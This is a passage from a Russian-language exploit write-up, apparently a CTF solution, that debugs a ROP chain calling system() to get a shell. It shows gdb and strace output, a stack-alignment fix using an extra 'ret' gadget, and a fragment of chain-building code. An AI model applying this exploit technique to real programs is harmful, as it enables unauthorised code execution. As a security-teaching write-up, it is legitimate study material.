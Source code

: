 И… это не работает. Почему же? Запускаем gdb заново и видим:

```c
$rsp   : 0x00007fffffffd8e8  →  0x00007ffff7fd80d1  →   mov r13, rax
...
   0x7ffff7c4e1f4                  mov    QWORD PTR [rsp+0x60], r12
   0x7ffff7c4e1f9                  mov    r9, QWORD PTR [rax]
   0x7ffff7c4e1fc                  lea    rsi, [rip+0x167fb1]        # 0x7ffff7db61b4
 → 0x7ffff7c4e203                  movaps XMMWORD PTR [rsp+0x50], xmm0
   0x7ffff7c4e208                  mov    QWORD PTR [rsp+0x68], 0x0
   0x7ffff7c4e211                  call   0x7ffff7d0b3e0 <posix_spawn>
   0x7ffff7c4e216                  mov    rdi, rbx
   0x7ffff7c4e219                  mov    r12d, eax
   0x7ffff7c4e21c                  call   0x7ffff7d0b2e0 <posix_spawnattr_destroy>
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "a.out", stopped 0x7ffff7c4e203 in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7c4e203 → movaps XMMWORD PTR [rsp+0x50], xmm0
```

Ошибка происходит из-за того, что инструкция `movaps` ожидает, что её аргумент будет выровнен по 16 байт, а `rsp` отстоит от выравнивания на 8 байт. Произошло это потому, что функции C ожидают, что при вызове стек выровнен, а за счёт того, что мы использовали ROP, это выравнивание поехало. Чтобы это исправить, достаточно перед вызовом `system` вставить ещё один пустой гаджет — просто инструкцию `ret`. Для этого можно просто взять гаджет `pop rdi; ret` и отбросить от него первую инструкцию `pop rdi`, которая занимает 1 байт. Таким образом, последний блок эксплоита можно заменить на:

```asm
// Кладём на стек подряд адрес pop rdi; ret, адрес шелл-кода, адрес ret и адрес system
pop d
pop d
pop d
mov d c
add d 1
push b
push d
push a
push c
```

Ещё одна проблема заключается в том, что если запустить этот код после исправления под `strace`, можно увидеть, что `system` на самом деле запускает шелл с пустым аргументом, хотя `rdi` устанавливается правильно:

```shell
$ strace -f /tmp/a.out
...
[pid 137289] execve("/bin/sh", ["sh", "-c", ""], 0x7fff36527f28 /* 63 vars */ <unfinished ...>
...
```

Дело здесь, по-видимому, в том, что шеллкод расположен на стеке, который использует сам вызов `system`. Поэтому придётся перенести его либо сильно ниже, либо чуть выше адреса возврата `main`. Сделать можно и так, и так; второй способ надёжнее, поэтому в разборе предлагается следовать ему.
